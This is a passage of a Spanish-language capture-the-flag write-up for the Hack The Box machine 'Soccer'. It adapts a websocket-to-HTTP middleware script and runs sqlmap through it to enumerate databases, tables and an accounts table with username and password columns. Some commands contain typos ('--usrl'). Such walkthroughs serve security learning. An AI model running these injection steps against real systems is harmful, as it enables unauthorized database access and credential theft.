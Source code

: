 Usaremos el script que nos proporcia el articulo variando.

```python
ws_server = "ws://localhost:8156/ws"
# SUSTITUCION
ws_server = "ws/soccer.htb:9091/"
```

Y las siguiente linea tambien debe ser cambiada...

```python
data = '{"employeeID":"%s"}' % message
# SUSTITUCION
data = '{"id":"%s"}' % message
```
Ya esta todo listo para lanzar nuestro script de python y redirigir el flujo para poder hacer el ataque ***SQL*** que posterior mente haremos con ***sqlmap*** nos ayudara en la automatizacion del proceso.

Ejecutamos python:

 ```bash
 ❯ python3 xploit.py

[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

 ```
Una vez ya estamos en escucha con nuestro script de python iniciamos ***sqlmap***

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Conseguimos conocer las bases de datos existentes *(buena noticia)* asi que proseguimos a ver que con tienela base de datos ***soccer_db*** que parece ser la mas prometedora.

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -tables

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
Encontramos una tabla y buscaremos que columnas contiene.

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -columns

Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```